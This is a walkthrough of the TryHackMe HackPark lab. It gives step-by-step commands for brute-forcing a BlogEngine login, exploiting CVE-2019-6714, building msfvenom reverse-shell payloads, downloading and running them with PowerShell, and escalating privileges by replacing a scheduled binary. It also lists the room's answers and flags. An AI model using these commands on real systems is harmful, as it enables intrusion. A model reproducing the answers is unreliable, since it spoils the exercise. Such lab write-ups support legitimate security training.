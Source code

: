 ```yaml
---
title: HackPark
date: 2021-06-18 0:06:03 -0800
categories: [TryHackMe]
tags: [TryHackMe] 
pin: true
---
```

## [Click here if you're interested in the room!](https://tryhackme.com/room/hackpark)


**This guide is meant to be used as a supplement for learning, please tackle this on your own before reading this!**


1. [What's the name of the clown displayed on the homepage?](#1)
2. [What request type is the Windows website login form using?](#2)
3. [Guess a username, choose a password wordlist and gain credentials to a user account!](#3)
4. [Now you have logged into the website, are you able to identify the version of the BlogEngine?](#4)
5. [What is the CVE?](#5)
6. [Using the public exploit, gain initial access to the server. Who is the webserver running as?](#6)
7. [Generating a reverse-shell payload using msfvenom (naming mine hello.exe)](#7)
8. [What is the OS version of this windows machine?](#8)
9. [What is the name of the abnormal service running?](#9)
10. [What is the name of the binary you're supposed to exploit?](#10)
11. [What was the Original Install time? (This is date and time)](#11)


<a name="1">

## 1) What's the name of the clown displayed on the homepage?

```
pennywise
```

  
<a name="2">
  
## 2) What request type is the Windows website login form using?

```
POST
```

  
  
<a name="3">
  

## 3) Guess a username, choose a passwordlist and gain credentials to a user account!

From the hints we can see that username is admin, and we will be using the infamous rockyou.txt as the password list.

Using BurpSuite to intercept we can see the post form and the body of the post form.

![image](https://user-images.githubusercontent.com/60508293/122626662-acd4d800-d060-11eb-8b13-1310eb94ec0e.png)
  
![image](https://user-images.githubusercontent.com/60508293/122626714-cd9d2d80-d060-11eb-8791-349d512e1b5c.png)

![image](https://user-images.githubusercontent.com/60508293/122626734-e0176700-d060-11eb-8e96-f9fe9b6ce7bb.png)

```
login: admin
password: 1qaz2wsx
```
  
  
<a name="4">


## 4) Now you have logged into the website, are you able to identify the version of the BlogEngine?
  Scrolling down to the About tab on the left we can identify the version.
  
![image](https://user-images.githubusercontent.com/60508293/122626903-967b4c00-d061-11eb-9cba-9e0bd262a2f5.png)

```
3.3.6.0
```

<a name="5">
  
  
## 5) What is the CVE?

Now we have to gain access to the machine using a reverse shell, but we can look for a vulnerability on www.exploit-db.com and searching "BlogEngine"

We found what we're looking for.
![image](https://user-images.githubusercontent.com/60508293/122626964-ccb8cb80-d061-11eb-9e27-b4c8e7f5ca7f.png)


```
CVE-2019-6714
```

<a name="6">
  
  
  
## 6) Using the public exploit, gain initial access to the server. Who is the webserver running as?
  
  
  
  
Go to Content -> Posts -> Welcome to HackPark
![image](https://user-images.githubusercontent.com/60508293/123197375-484eba00-d460-11eb-84bc-b5fe921e2358.png)
  
  
  
Upload PostView.ascx
  
  
Setup a nc listener on your chosen port.
```bash
nc -lvnp 4444
```

After, go to
```
http://{target_ip}/?theme=../../App_Data/files
```
  

![image](https://user-images.githubusercontent.com/60508293/123197721-c4e19880-d460-11eb-8757-6708f4be4d02.png)

```
iis apppool\blog
```
  
  
Time to pivot from netcat to meterpreter for a more full-fleshed shell.
  
  
<a name="7">
  
## 7) Generating a reverse-shell payload using msfvenom (naming mine hello.exe)
  
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={your_ip} LPORT={your port} -f exe -o hello.exe
```

Setup a http server and download the payload.
```bash
python3 -m http.server
```
 
First, navigate to C:\Windows\Temp
  
  
Download the payload.
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/hello.exe','hello.exe')"
```
  
  
Setup metasploit
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LPORT {your port}
set LHOST {your ip}
run
```
Start Process
```
powershell "Start-Process 'hello.exe'"
```
  

We now have a meterpreter session!
![image](https://user-images.githubusercontent.com/60508293/123199167-37537800-d463-11eb-91f0-a59f819a374a.png)
  

  
<a name="8">
  
  
  
## 8) What is the OS version of this windows machine?
  
  
![image](https://user-images.githubusercontent.com/60508293/123199476-c95b8080-d463-11eb-93ef-9fe073366576.png)
  
```
Windows 2012 R2 (6.3 Build 9600)
```

  
I'm going to be further enumerating the machine using [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). 

  
```metasploit
upload winPEAS.bat
shell
winPEAS.bat
```
  
<a name="9">
  
  
## 9) What is the name of the abnormal service running?
I see something interesting
  
  
![image](https://user-images.githubusercontent.com/60508293/123202547-a207b200-d469-11eb-864b-5bebce900e15.png)
  
```
WindowsScheduler
```
  
  
<a name="10">
  

## 10) What is the name of the binary you're supposed to exploit? 
  
Navigating to "C:\Program Files (x86)\SystemScheduler\events
  
Taking a look glance at all the .txt files I see something that sticks out:
![image](https://user-images.githubusercontent.com/60508293/123203405-273f9680-d46b-11eb-8436-2d44ac2e4604.png)
  
Message.exe seems to be running approximately every 30 seconds as admin.

```
Message.exe
```
  
Let's run our own payload abusing this fact.
  
Spawn a msfvenom payload called Message.exe
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST={your_ip} LPORT={your_port} -f exe -o Message.exe
```
  
Setup another meterpreter session or a nc session.

Go to "C:\Program Files (x86)\SystemScheduler" and overwrite Message.exe

After a few seconds we should be connected:
  
![image](https://user-images.githubusercontent.com/60508293/123204808-aafa8280-d46d-11eb-9f82-c55d099bbc7d.png)


I'm in metasploit so to search for text files
```
search -f *.txt
```
  
  
![image](https://user-images.githubusercontent.com/60508293/123205061-15132780-d46e-11eb-8112-3eedb819a5a9.png)
  
  
![image](https://user-images.githubusercontent.com/60508293/123205300-7affaf00-d46e-11eb-9f47-9f66d2c1e0fd.png)

  
```powershell
cat "c:\Users\jeff\Desktop\user.txt"
cat "c:\Users\Administrator\Desktop\root.txt"
```

**FLAG for Jeff** 759bd8af507517bcfaede78a21a73e39
  
  
**FLAG for Root** 7e13d97f05f7ceb9881a3eb3d78d3e72
  
  
  
<a name="11">

## 11) What was the Original Install Time? 

Spawn a regular shell from meterpreter session then use the command systeminfo to find the time.
```
shell
systeminfo
```
![image](https://user-images.githubusercontent.com/60508293/123205887-856e7880-d46f-11eb-913b-0a513512ef18.png)

```
8/3/2019 10:43:23
```
